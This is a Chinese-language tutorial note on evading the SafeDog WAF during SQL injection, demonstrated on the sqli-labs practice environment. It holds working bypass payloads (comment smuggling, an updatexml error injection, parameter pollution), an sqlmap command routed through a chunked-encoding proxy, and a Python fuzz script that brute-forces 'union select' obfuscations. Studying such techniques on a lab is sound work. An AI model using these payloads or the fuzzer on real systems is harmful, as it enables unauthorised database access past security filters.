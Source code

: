 ## SQL注入绕WAF

测试WAF：安全狗

测试环境：sqlilab

 ### 分块编码传输

使用最新版安全狗进行测试，测试关卡为sqlilab得第11关

![](media/2020-01-01.png)

可以看到我们使用报错注入直接被安全狗拦截了，接下来使用分块编码传输尝试。

![](media/2020-01-02.png)

可以看到已经通过报错获得了当前用户的用户名。

结合sqlmap使用得话可以用以下方法

* 将burp得proxy设置为自动进行分块传输![](media/2020-01-04.png)

  ![](media/2020-01-05.png)

* ```
  sqlmap执行命令：python sqlmap.py -r test.txt --proxy=http://127.0.0.1:8080
  ```

  ![](media/2020-01-06.png)

### 安全狗特性绕WAF

安全狗会自动忽略/**/中的内容，利用这点我们构造出如下语句：

```
http://localhost/sqllab/Less-1/?a=/*&id=1%27%20and%20updatexml(1,concat(0x7e,(select%20user()),0x7e),1)--+*/
```

![](media/2020-01-03.png)

### FUZZ

首先要找到被过滤的点，是union、select、还是union select得组合。然后进行fuzz。这种情况多适用于对一个如union select这个组合进行过滤得情况。

附：fuzz脚本

```
#!-*- coding:utf-8 -*-
#!/usr/bin/env python

import requests, sys

fuzz_zs = ['/*','*/','/*!','/**/','?','/','*','=','`','~','@','|','!','%','.','-','+','%00','%20','%09','%0a','%0d','%0c','%0d','%a0']
fuzz_sz = ['']
fuzz_ch = ['%0a','%0d','%0c','%0d','%0e','%0f','%0g','%0h','%0i','%0j','%0h','%0i','%0j','%0k','%0l','%0m','%0n','%0o','%0p','%0q','%0r','%0s','%0t','%0u','%0v','%0w','%0x','%0y','%0z']

fuzz = fuzz_zs + fuzz_sz + fuzz_ch
headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36'}

url_start = 'http://192.168.25.133/sql.php?id=1'

lens = len(fuzz)**4
num = 0
#只嵌套了4层
for a in fuzz:
	for b in fuzz:
		for c in fuzz:
			for d in fuzz:
				num += 1
				payload = "/*!union" + a + b + c + d + "select*/ 1,2,3"
				url = url_start + payload
				print("Now URL:" + url)
				print "Process %s / %s"%(num,str(lens))
				# sys.stdout.write("Process：%s / %s \r"%(num,str(lens)))
				# sys.stdout.flush()
				res = requests.get(url,headers=headers)
				if "hhhhtest" in res.text:
					with open('Result.txt','a') as r:
						r.write(url + "\n")
```



 https://mp.weixin.qq.com/s/1OoK-57IogCABWAlkp2S5A 

### HPP污染

HPP污染在绕过waf中有两种应用场景

* 以http://localhost/aaa.php?id=1&id=union select 1,2,3--+为例，WAF可能取第一个id，而服务器则取最后一个id值。这样可以达到绕过waf得效果。
* 服务器可能会将两个相同字段得值拼接在一起，如http://localhost/aaa.php?id=1' union&id=select 1,2,3--+ 。waf对两块分离都没有告警，而两者在后端拼接在一起时就会产生注入效果。

 https://cloud.tencent.com/developer/article/1516333 

### 附加内容：

分块编码传输插件： https://github.com/c0ny1/chunked-coding-converter 

SQLServer Bypass安全狗

https://blog.csdn.net/qq_41210745/article/details/102952607 
